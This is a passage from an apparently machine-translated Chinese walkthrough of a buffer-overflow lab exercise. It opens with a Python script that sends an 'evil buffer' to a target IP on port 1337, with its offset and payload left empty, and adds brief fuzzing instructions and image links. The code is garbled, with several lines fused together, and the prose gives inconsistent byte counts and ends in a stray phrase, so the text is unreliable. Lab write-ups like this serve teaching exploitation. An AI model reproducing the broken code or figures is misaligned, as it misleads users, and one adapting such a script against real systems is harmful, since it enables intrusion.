 ```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py

![](img/545e7b0b7d63572e9432f45d710cf73d.png)

如果你能看到它停在 2000 字节，这意味着偏移量将在 1900 到 2000 字节的范围内。让我们创建一个大于 400 字节偏移量的模式，也就是 2400 字节。破坏了我们的计划

![](img/dd0749f05dd2d95002e992dafed48bdd.png)
